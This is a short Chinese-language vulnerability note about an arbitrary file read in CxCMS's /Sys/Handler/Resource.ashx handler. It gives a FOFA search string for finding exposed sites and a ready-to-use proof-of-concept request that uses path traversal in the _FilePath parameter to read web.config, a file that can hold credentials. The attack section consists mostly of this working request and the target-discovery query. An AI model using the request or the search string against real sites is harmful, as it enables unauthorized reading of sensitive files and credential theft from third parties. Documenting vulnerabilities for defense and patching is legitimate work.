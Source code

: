 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>CxCMS </a-checkbox></br>

## FOFA

<a-checkbox checked>"Powered by CxCms"</a-checkbox></br>

## 漏洞复现

关键字确认CMS

![img](../../../.vuepress/public/img/1635923532626-6348c269-8042-4b83-9296-aac9516db18e.png)

验证POC

```php
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![img](../../../.vuepress/public/img/1635923602690-86a13443-0ef9-4788-8ec6-fad2b601ff7e.png)